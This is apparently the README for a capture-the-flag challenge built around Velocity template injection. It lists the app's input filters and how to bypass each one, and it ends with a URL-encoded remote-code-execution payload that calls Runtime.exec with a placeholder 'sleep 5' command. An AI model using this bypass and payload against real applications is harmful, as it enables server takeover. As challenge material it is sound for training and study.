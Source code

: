 # COVID-19 Statistics

> To remind you that COVID-19 is real.

## Deploy

```
mvn clean package
docker-compose up -d
```

## Description

In this challenge, there is Velocity template injection vulnerability.
There are some filters though:

### `.replace("\"", "&quot;")`:

This can be annoying because for string literals you have to use `'` character :)

### `.replaceAll("\\$\\w+", "")`
This can be bypassed by putting it in formal reference notation `${<payload>}`, [reference](https://velocity.apache.org/engine/1.7/user-guide.html#formal-reference-notation).

### `.replaceAll("\\#\\w+", "")`
Usually this is used by directives, such as `#set`. However in my PoC this is not used.

### `"#[[" + decoded + "]]#"`.
This is for literals so it won't be parsed by Velocity. Can easily bypassed by adding `]]#` in front of the payload.

## Solve

Change this RCE payload (`sleep 5`) to get the flag.

```
/%5D%5D%23%24%7Bclass.inspect('java.lang.Runtime').type.getRuntime().exec('sleep%205').waitFor()%7D
```
